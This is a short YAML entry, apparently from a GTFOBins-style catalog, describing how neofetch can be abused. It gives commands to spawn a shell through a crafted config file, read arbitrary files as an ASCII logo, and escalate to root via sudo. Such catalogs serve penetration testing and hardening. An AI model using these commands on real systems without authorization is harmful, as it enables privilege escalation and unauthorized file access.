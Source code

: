 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec /bin/sh' >$TF
        neofetch --config $TF
  file-read:
    - description: The file content is used as the logo while some other information is displayed on its right, thus it might not be suitable to read arbitray binary files.
      code: |
        LFILE=file_to_read
        neofetch --ascii $LFILE
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec /bin/sh' >$TF
        sudo neofetch --config $TF
---
```

